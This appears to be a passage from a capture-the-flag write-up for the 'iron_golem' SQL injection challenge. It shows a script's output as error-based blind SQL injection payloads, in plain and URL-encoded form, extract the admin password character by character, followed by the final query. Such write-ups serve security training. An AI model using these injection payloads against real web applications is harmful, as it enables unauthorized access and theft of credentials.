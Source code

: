 ```

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 26, 1)='8', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+26%2C+1%29%3D%278%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 26: 8

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 27, 1)='2', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+27%2C+1%29%3D%272%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 27: 2

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 28, 1)='5', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+28%2C+1%29%3D%275%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 28: 5

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 29, 1)='e', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+29%2C+1%29%3D%27e%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 29: e

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 30, 1)='e', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+30%2C+1%29%3D%27e%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 30: e

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 31, 1)='9', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+31%2C+1%29%3D%279%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 31: 9

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 32, 1)='a', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+32%2C+1%29%3D%27a%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 32: a

[!] Extracted password: 06b5a6c16e8830475f983cc3a825ee9a
[!] Final payload: ?pw=06b5a6c16e8830475f983cc3a825ee9a
```

We can now provide the following URI parameter:

```
?pw=06b5a6c16e8830475f983cc3a825ee9a
```

The resultant query becomes:

```sql
SELECT id FROM prob_iron_golem WHERE id='admin' AND pw='06b5a6c16e8830475f983cc3a825ee9a'
```

![0](https://github.com/Kunull/Write-ups/assets/110326359/767ddf08-937c-4b54-ba8c-98845814d803)
